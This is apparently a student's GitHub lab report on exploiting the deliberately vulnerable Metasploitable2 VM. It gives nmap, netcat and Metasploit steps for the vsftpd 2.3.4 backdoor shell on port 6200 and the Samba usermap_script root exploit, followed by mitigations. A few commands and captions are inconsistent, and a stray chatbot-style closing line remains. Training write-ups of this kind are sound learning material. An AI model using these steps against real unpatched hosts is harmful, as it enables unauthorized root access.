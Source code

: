 # Lab Report: Metasploitable2 - vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)
- [Screenshots](#screenshots)

---

## Objective
The purpose of this lab is to practice penetration testing techniques by exploiting known vulnerabilities in the Metasploitable2 virtual machine, specifically targeting vsftpd 2.3.4 and Samba 3.0.20 services.

---

## Lab Setup
- **Target:** Metasploitable2 VM
- **Attacker:** Kali Linux VM
- **Network:** NAT setup ensuring connectivity between attacker and target
- **Tools Used:** Nmap, Metasploit Framework, Netcat, smbclient

---

## Reconnaissance
open source intelligence (osint) 

Metasploitable 2

A test environment provides a secure place to perform penetration testing and security research. For your test environment, you need a Metasploit instance that can access a vulnerable target. The following sections describe the requirements and instructions for setting up a vulnerable target. Downloading and Setting Up Metasploitable 2 The easiest way to get a target machine is to use Metasploitable 2, which is an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities. This virtual machine (VM) is compatible with VMWare, VirtualBox, and other common virtualization platforms.

Metasploitable 2 is available at:

    https://information.rapid7.com/metasploitable-download.html 

https://sourceforge.net/projects/metasploitable/ 

### Nmap Scan
Performed a comprehensive port scan to identify open services:

```bash
nmap -sV -p 21,139,445 <target-ip>
````
![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/34c3b8c116d0e423931981bfdc966a7bf373244b/Pentest-Labs/screenshots/nmap_version_port_scan.png)

**Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

---

## Exploitation

### vsftpd 2.3.4 Backdoor Exploit

1. **Description:** vsftpd 2.3.4 contains a malicious backdoor (CVE-2011-2523) that opens a command shell on port 6200 when any username and password is used.

2. **Steps:** 
   To attack the ftp vulnerability, I used netcat.
   
```bash
nc <target-ip> 21
```

* When prompted for username, I entered `exploitingYou:)`
* When prompted for password, I entered `youvebeenhacked`

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/fa77757b69c17942f5b6ac69fa3ea0955e164f4c/Pentest-Labs/screenshots/nc_user_pass_exploit.png)

* After login, connect to port 6200 to get a shell:
  
```bash
nc -v <target-ip> 6200
```
* NOTE: I used -v here for a more verbose output.
  
3. **Result:** Obtained a root shell on the target system. "whoami", "id", and "ls" command were ran to show root access and files.

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/0c13deda10d5ea5146ad7055da298159402aafca/Pentest-Labs/screenshots/nc_root_access.png)

---

### Samba 3.0.20 Exploit (username map script)

1. **Description:** Samba 3.0.20 contains a remote code execution vulnerability.

2. **Using Metasploit:**
   
* Metaploit Commands used:
```bash
>msfconsole
>use auxiliary/scanner/smb/smb
>use 11 
>show options
>set RHOSTS <target_ip>
>run
	(shows Samba 3.0.20-Debian)
>searchsploit samba 3.0.20
	 (shows 'Username map script' Command Execution)
>grep samba search username map
>use 3
>show options
>set RHOSTS <target_ip>
>exploit
>whoami
>ls
```
* Start Metaploit
![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/b570e5ba232e22ab15fc6f7dff531a7cdd4212a1/Pentest-Labs/screenshots/msf_scanner.png)

3. Find an auxiliary scanner to find the Samba SMB _version_ and set the RHOSTS to <target_ip>. Running the scan shows "Samba 3.0.20-Debian"

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/df12a31297b9d23b36adfedc573c06e31cf5f633/Pentest-Labs/screenshots/msf_smb_version.png)

4. In a new CMD, usging 'searchsploit' search for "samba 3.0.20" (I chose "'Username' map script' Command Execution" exploit).

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/c1fdf8dc6495a39cf7f56d3a0ed266c3384fa518/Pentest-Labs/screenshots/searchsploit_samba_version.png)

5. From the auxiliary(scanner/smb/smb_verion) enter "grep samba search username map". This shows "exploit/multi/samba/usermap_script" with an exploit rating of "excellent".

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/dd6ba55325b7c93bb14d3a6827c039bfff11567f/Pentest-Labs/screenshots/samba_usermap_script.png)

6. Select "exploit/multi/samba/usermap_script" and show options and set RHOSTS to <target_ip>. Then run the exploit.



7. **Result:** Obtained root privileges via a shell.


---

## Post-Exploitation

* Enumerated user accounts
* Checked system information
* Demonstrated ability to upload and execute files
* Captured proof of root access

---

## Mitigations & Recommendations

* Upgrade vsftpd to a non-vulnerable version
* Patch Samba to the latest stable release
* Disable unused services
* Implement firewall rules to restrict access

---

## References

* [Metasploitable2 Official Documentation](https://sourceforge.net/projects/metasploitable/)
* [CVE-2011-2523 - vsftpd 2.3.4 Backdoor](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

## Screenshots

![Nmap Scan](screenshots/nmap_scan.png)
*Figure 1: Nmap scan results*

![vsftpd Backdoor Shell](screenshots/vsftpd_shell.png)
*Figure 2: vsftpd backdoor shell*

![Meterpreter Session](screenshots/meterpreter_session.png)
*Figure 3: Samba exploit Meterpreter session*

---

*End of Report*

```

---

Would you like me to help generate specific sections with real example outputs or help you embed screenshots?
```
